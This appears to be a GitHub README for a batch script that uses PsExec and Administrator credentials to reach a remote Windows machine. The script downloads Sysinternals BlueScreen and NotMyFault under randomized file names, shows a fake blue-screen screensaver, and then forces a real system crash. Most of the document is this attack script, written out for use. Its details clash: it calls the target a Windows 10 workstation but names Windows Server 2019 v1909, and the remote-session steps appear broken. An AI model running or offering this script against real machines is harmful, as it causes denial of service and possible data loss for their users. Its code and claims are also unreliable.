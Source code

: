 # bsod-sysinter

The following script leverages the PSExec, SysInternalsBluescreen.scr, and notmyfaultc64.exe components of Sysinternals Suite to flash a blue screen screensaver and force a BSOD against a remote Windows 10 workstation. It assumes knowledge of administrative credentials and was tested against Windows Server 2019 v1909 with the Windows Firewall in its default configuration state.

```bat
FOR /F "tokens=*" %%g IN ('powershell.exe -NoProfile -command "& {$stringAsStream = [System.IO.MemoryStream]::new(); $writer = [System.IO.StreamWriter]::new($stringAsStream); $out = (Get-Random) -join \"`n\"; $writer.write($out); $writer.Flush(); $stringAsStream.Position = 0; Get-FileHash -InputStream $stringAsStream -Algorithm SHA256 | Select-Object Hash}"') do (SET VAR=%%g)
echo %VAR%

FOR /F "tokens=*" %%g IN ('powershell.exe -NoProfile -command "& {$stringAsStream = [System.IO.MemoryStream]::new(); $writer = [System.IO.StreamWriter]::new($stringAsStream); $out = (Get-Random) -join \"`n\"; $writer.write($out); $writer.Flush(); $stringAsStream.Position = 0; Get-FileHash -InputStream $stringAsStream -Algorithm SHA256 | Select-Object Hash}"') do (SET VAR2=%%g)
echo %VAR2%

psexec.exe \\192.168.0.12 -u Administrator cmd
curl https://download.sysinternals.com/files/BlueScreen.zip --output %USERPROFILE%\%VAR%.zip
curl https://download.sysinternals.com/files/NotMyFault.zip --output %USERPROFILE%\%VAR2%.zip
tar -xf %USERPROFILE%\%VAR%.zip -C %USERPROFILE% REM extract to Administrator's user profile
tar -xf %USERPROFILE%\%VAR2%.zip -C %USERPROFILE%
exit
psexec.exe -i \\192.168.0.12 -u Administrator "%USERPROFILE%\SysInternalsBluescreen.scr" /s Rem Previous interactive Psexec session exited so that another can be spawned in the active user session
psexec.exe \\192.168.0.12 -u Administrator "%USERPROFILE%\notmyfaultc64.exe" crash 0x01
```

### Files in Targeted Directory

![alt text](https://github.com/kevinkenzhao/bsod-sysinter/blob/main/file-drop.PNG?raw=true)


Reference: https://docs.microsoft.com/en-us/troubleshoot/windows/win32/screen-saver-command-line
